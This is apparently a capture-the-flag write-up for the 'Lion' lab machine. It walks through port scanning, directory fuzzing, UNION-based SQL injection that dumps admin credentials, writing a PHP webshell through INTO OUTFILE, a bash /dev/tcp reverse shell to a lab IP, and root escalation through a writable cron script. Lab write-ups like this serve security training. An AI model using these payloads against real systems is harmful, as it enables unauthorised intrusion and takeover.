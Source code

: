 ```yaml
---
title: 'Lion Writeup'
date: '2024-11-07'
tags: ['SQLI', 'RCE', 'Linux', 'Hacking Club']
draft: false
summary: 'The Lion machine is vulnerable to SQL injection, allowing RCE through the upload of a webshell, and has privilege escalation via cron jobs.'
images: ['/static/images/lion-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/lion-writeup-images/default.png)

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 54:10:95:51:0a:58:e3:99:94:df:38:18:97:6a:4d:2b (RSA)
|   256 59:92:28:b0:58:99:ad:d8:e0:b3:2a:c5:0e:68:8a:b9 (ECDSA)
|_  256 57:64:77:04:34:fa:d5:00:ba:8d:e7:19:44:2f:7b:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.46 (() PHP/7.4.15)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: News Portal | Home Page
|_http-server-header: Apache/2.4.46 () PHP/7.4.15
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
3306/tcp open  mysql   MariaDB (unauthorized)
```

Ports 22 (SSH), 80 (HTTP), 111 (RPC), and 3306 (MySQL) are open.

---

## **Enumeration**

## http://172.16.9.144

![lion](/static/images/lion-writeup-images/image.png)

### Fuzzing

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.16.9.144/FUZZ -e .php -ic`

![lion 1](/static/images/lion-writeup-images/image1.png)

he `/admin` endpoint was found via fuzzing; however, it is not vulnerable to SQL Injection.

I tried things like passing a single quote and default credentials like `admin:admin`, but I had no success.

![lion 2](/static/images/lion-writeup-images/image2.png)

Testing SQL Injection in the search field.

![lion 3](/static/images/lion-writeup-images/image3.png)

`' or 1=1 -- -` returned all posts.

![lion 4](/static/images/lion-writeup-images/image4.png)

Enumerating the number of tables with `union select`

`' union select 1,2,3,4,5,6 -- -`

![lion 5](/static/images/lion-writeup-images/image5.png)

When tested with 7 columns, it works and reflects the number 2, meaning this is the column to inject into.

`' union select 1,2,3,4,5,6,7 -- -`

![lion 6](/static/images/lion-writeup-images/image6.png)

`' union select 1,@@version,3,4,5,6,7 -- -`

![lion 7](/static/images/lion-writeup-images/image7.png)

Getting the database name:

`' union select 1,database(),3,4,5,6,7 -- -`

![lion 8](/static/images/lion-writeup-images/image8.png)

`' union select 1,table_name,3,4,5,6,7 FROM information_schema.tables WHERE table_schema='news' -- -`

![lion 9](/static/images/lion-writeup-images/image9.png)

`' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' -- -`

![lion 10](/static/images/lion-writeup-images/image10.png)

Getting the admin password:

`' union select 1,concat(AdminUserName,":",AdminPassword),3,4,5,6,7 from tbladmin -- -`

![lion 11](/static/images/lion-writeup-images/image11.png)

The hash is a Bcrypt hash, as it starts with `$2`, which is one of the hardest hashes to crack, making a brute force attack infeasible.

---

## Foot Hold

Using SQL Injection to get a web shell.

`' union select 1,"<?php system($_GET['cmd']) ?>",3,4,5,6,7 into outfile "/var/www/html/includes/cmd.php" -- -`

![lion 12](/static/images/lion-writeup-images/image12.png)

`http://172.16.9.144/includes/cmd.php?cmd=id`

![lion 13](/static/images/lion-writeup-images/image13.png)

`http://172.16.9.144/includes/cmd.php?cmd=bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1`

Note: Remember to encode the payload.

![lion 14](/static/images/lion-writeup-images/image14.png)

`nc -lnvp 1337`

![lion 15](/static/images/lion-writeup-images/image15.png)

---

## Privillege Escalation

Cron job of a backup script running as root.

![lion 16](/static/images/lion-writeup-images/image16.png)

Looking at the script's permissions, I have write, read, and execute permissions.

![lion 17](/static/images/lion-writeup-images/image17.png)

I simply modified the script to add special permissions to **/bin/bash**, making it a **SUID**.

`nano lion.backup.sh`

![lion 18](/static/images/lion-writeup-images/image18.png)

![lion 19](/static/images/lion-writeup-images/image19.png)

---

## Proof

![lion 20](/static/images/lion-writeup-images/image20.png)
